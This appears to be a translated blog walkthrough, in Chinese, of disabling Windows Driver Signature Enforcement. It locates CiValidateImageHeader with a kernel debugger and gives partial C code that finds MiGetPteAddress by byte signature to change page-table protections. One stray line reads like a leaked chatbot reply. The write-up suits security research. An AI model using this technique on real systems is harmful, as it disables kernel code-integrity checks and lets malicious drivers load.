 ### 通过patch 取消DSE

​      如果您之前跟踪过许多 AMSI（Antimalware Scan Interface）绕过技术，您可能对我们在这里绕过此保护所能做的事情感到熟悉...我们进行代码补丁。首先，我们需要了解需要进行代码补丁的位置，因此让我们进入内核调试器会话，并在一个我们知道可能会检查策略的位置添加一个断点。根据对CI.dll的审查，CiCheckPolicyBits看起来是一个适合设置断点的函数。从这里开始，尝试加载未签名的驱动程序会产生一个如下的调用堆栈：

![image4_mmaemq](https://kcufid.github.io/images/pic/2023-07-19\image4_mmaemq.png)

​    在这里，我们看到从内核转入CI（Code Integrity）通过SeValidateImageHeader，并调用了CiValidateImageHeader函数。这个函数负责验证我们的驱动程序是否符合签名要求。让我们在SeValidateImageHeader中添加一个断点，以查看在加载未签名驱动程序失败时CiValidateImageHeader的返回值：

![image5_aivejm](https://kcufid.github.io/images/pic/2023-07-19\image5_aivejm.png)

​    这的确看起来像是一个NTSTATUS代码。在魔法数字数据库中搜索显示c0000428对应于STATUS_INVALID_IMAGE_HASH，这意味着驱动程序的映像哈希无效，因此未通过签名验证。

您的分析是正确的，如果这个函数返回STATUS_SUCCESS，它将绕过签名检查，允许未签名的驱动程序成功加载。

幸运的是，我们也知道这个方法没有受到Kernel Data Protection的保护，所以现在我们只需要找出一种允许写入这个内存位置的方法。

### 禁用带有签名驱动程序的DSE

​     我们创建一个快速的驱动程序，用于禁用DSE时的概念更容易理解。显然，一旦构建完成，这个驱动程序必须使用证书签名后才能加载。出于在下一节中将变得明显的原因，我们将重点关注通过读写来填充CiValidateImageHeader，但请随意使用创造性的解决方案。显然，有很多可以劫持的地方！

首先，我们修改内核中CiValidateImageHeader的内存保护。最直接的方法是直接修改虚拟地址的页面表项（PTE）。为了获取CiValidateImageHeader的页面表项，我们首先需要找到一个方法，允许我们将虚拟地址转换为对应的PTE。

对于经常涉足游戏作弊的人，您可能知道在这种情况下我们使用的函数是MiGetPteAddress。关于如何找到这个方法的精彩解释，请查看@33y0re的关于PTE覆写的博客文章。这个函数实际上会揭示我们后续需要的PTE基址，在下面可以看到它是0FFFFCE8000000000，但在每次重新启动后都会更新：

![image6_cjcasa](https://kcufid.github.io/images/pic/2023-07-19\image6_cjcasa.png)

​     为了找到这个函数，我们需要在内存中搜索字节特征( byte signature)。我们可以使用类似以下的方法来实现：

```c
void* signatureSearch(char* base, char* inSig, int length, int maxHuntLength) {
	for (int i = 0; i < maxHuntLength; i++) {
		if (base[i] == inSig[0]) {
			if (memcmp(base + i, inSig, length) == 0) {
				return base + i;
			}
		}
	}

	return NULL;
}
...
```

​    通过在内存中搜索与MiGetPteAddress匹配的特征，我们可以提取PTE基址，并将虚拟地址解析为PTE位置：

```c
char MiGetPteAddressSig[] = { 0x48, 0xc1, 0xe9, 0x09, 0x48, 0xb8, 0xf8, 0xff, 0xff, 0xff, 0x7f, 0x00, 0x00, 0x00, 0x48, 0x23, 0xc8, 0x48, 0xb8 };

void* FindPageTableEntry(void* addr) {

	ULONG_PTR MiGetPteAddress = signatureSearch(&ExAcquireSpinLockSharedAtDpcLevel, MiGetPteAddressSig, sizeof(MiGetPteAddressSig), 0x30000);
	
	if (MiGetPteAddress == NULL) {
		return NULL;
	}
	
	ULONG_PTR PTEBase = *(ULONG_PTR*)(MiGetPteAddress + sizeof(MiGetPteAddressSig));
	ULONG_PTR address = addr;
	address = address >> 9;
```